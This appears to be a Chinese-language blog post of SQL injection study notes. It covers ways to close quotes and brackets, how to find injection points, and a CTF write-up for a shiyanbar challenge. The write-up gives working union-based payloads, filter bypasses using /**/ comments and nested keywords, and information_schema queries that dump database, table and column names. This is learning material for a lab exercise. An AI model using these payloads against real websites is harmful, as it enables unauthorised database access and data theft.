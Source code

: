 ```yaml
---
layout: post
title: "sqli-studying2"
date: 2019-05-16
author: jjnoob
categories:
- 2019-05
tags:
- sqli
---
```


* content
{:toc}

> 积累..


# 一. 引号闭合
> 引号闭合.


[参考Yi0nurs](https://blog.csdn.net/qiutyu/article/details/80314929)
```sql
$id=$_GET['id']; 
```
```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; 
```
下面的语句对id进行了修饰, 用`'`(单引号)把id括了起来. 所以我们构造语句的时候
1. 要把我们构造的语句 '逃逸' 出来.
2. 要把结构进行补全或者适当的注释。

<br />

# 二. mysql手工注入
[参考 隐念笎](https://www.cnblogs.com/zlgxzswjy/p/6707433.html)
## (1) 几种闭合方法:
```sql
select * from tables where id=$id;          /*这种情况下，$id变量多为数字型    不需要闭合符号，可以直接注入，但如果系统做了只能传入数字型的判断，就无法注入*/
select * from tables where id='$id';        /*这种情况下，$id变量多为字符型    需要闭合单引号，可以用?id=1'这种形式闭合*/
select * from tables where id="$id";        /*这种情况下，$id变量多为字符型    需要闭合双引号，可以用?id=1"这种形式闭合*/
select * from tables where id=($id);        /*这种情况下，$id变量多为数字型    需要闭合括号，可以用?id=1)这种形式闭合*/
select * from tables where id=('$id');      /*这种情况下，$id变量多为字符型    需要同时闭合单引号和括号，可以用?id=1')这种形式闭合*/
select * from tables where id=("$id");      /*这种情况下，$id变量多为字符型    需要同时闭合双引号和括号，可以用?id=1")这种形式闭合*/
select * from tables where id=(('$id'));    /*这种情况下，$id变量多为字符型    需要同时闭合单引号和两层括号，可以用?id=1'))这种形式闭合*/

select * from tables where id='$id' limit 0,1;    /*有些语句还有limit子句，我们可以通过上面提到的方法先闭合单引号，然后用%23，即注释符注释掉后面的语句，具体写法如下：?id=1'%23；即可闭合输出正确的语句*/
```
> `%23=#` 
> http中传输特殊的字符, 有些符号在URL中是不能直接传递的, 如果要在URL中传递这些特殊符号, 那么就要使用他们的编码了. 编码的格式为：%加字符的ASCII码


## (2) 手工注入
### 1. 找到注入点

在变量可控的部分加入一些符号，查看页面是否正常

网站www.example.com/index.php?id=1

这里的id变量是用户可控的，可以在id=1后加一个单引号，变成`id=1'` . 页面如果报错多了一个单引号，那么说明可能存在注入点。

也可以在id=1后通过and符号多增加多个判断，如果`'id=1 and 1=1'`页面正常，`'id=1 and 1=2'`时页面不正常，则这个页面边可能存在注入。

### 2. 闭合语句
一般来说，原有语句中的这个limit我们是无法利用的，多半可能会导致我们的闭合无法完成，而且为了后续便于我们遍历数据库，我们需要注入一个我们可控的limit子句，所以需要注释掉原有语句的limit子句，防止冲突。可以使用`%23`(#)等数据库注释符号，进行注释。


网站：`www.example.com/index.php?id=1`

他在数据中的查询语句是
```sql
select * from table where id='$id' limit 0,1;
```
那么我们注入的语句就可以是`?id=1' %23`

这个时候，带入到数据库查询的语句就变成了
```sql
select * from table where id='$id' #' limit 0,1;
```
`#`会把后面的语句注释掉，然后我们得到实际执行的语句就成了:
```sql
select * from table where id='$id';
```
> 因为由于编码的问题，在浏览器中直接提交#会变成空，所以我们使用url编码后的#，即`%23`，当传输到后端时，后端语言会对它自动解码成#，才能够成功带入数据库查询。


<br />

# 三. 实验吧-简单的sql注入

[题目链接](http://www.shiyanbar.com/ctf/1875)


## (1) 方法一
[参考 ShellMeShell丶](https://blog.csdn.net/Everywhere_wwx/article/details/71289107)

1. 输入`1 '`时发现MySQL报错, 可能存在注入`php?id`
2. 输入的语句中包含空格时会提示`SQLi detected!`(一开始碰到了, 后来就没碰到), 而不包含空格时, 则不会报错此类信息
3. 过滤了空格.
3. **知识点：当过滤空格时，通常用`()`或`/**/`代替空格**
4. 输入:`1/**/union/**/select/**/flag/**/from/**/flag/**/where/**/1=1`, 得到预期结果.
5. 加单引号闭合, `1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag.

> 这里的字段flag和表flag是猜测的. 如果想得到表名和字段名就需要用其他办法.


## (2) 方法二
[参考wewww111](https://blog.csdn.net/wewww111/article/details/81589444)

[参考波哥在努力](https://www.cnblogs.com/tlbjiayou/p/10828601.html)


### 判断注入类型
输入`1' order by 1 #`, 报错的一部份为:`to use near '1 '' at line 1`
输入`1' orderrr by 1 #`, 报错的一部份为:`to use near 'orderrr 1'' at line 1`

可见`order`关键字被过滤, 同法也可知`select`等关键字也被过滤.
> 他这个过滤, 貌似不是一直总是过滤特定的关键字, 过滤的关键字貌似过一段时间就会变化. 有些writeup上面写`and`和空格也会过滤, 但是我没有试出来.


### 关键词被过滤的解决方法:
* 大小写交替: `Order SeLect` 
* 双写: `OderOrder SelectSelect` (双写后可能后面要加两个空格)
* 交叉： `selecselectt`  

### 主要步骤

用`/**/`绕过过滤，用`union`
暴库:
```sql
1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1
```
> 参考的writeup作者说这里的database()貌似没用


爆表:
```sql
1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
```

爆字段:
```sql
1'/**/union/**/select/**/column_name/**/from/**/information_schema.coluinformation_schema.columnsmns/**/where/**/table_name='flag
```
报错
`infromation_schema.columns` 被过滤了,用交叉写法可以绕过
`column_name`也被过滤了

爆字段2:
```sql
1'/**/union/**/select/**/column_nacolumn_nameme/**/from/**/information_schema.coluinformation_schema.columnsmns/**/where/**/table_name='flag
```
最后一步:
```sql
1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1
```

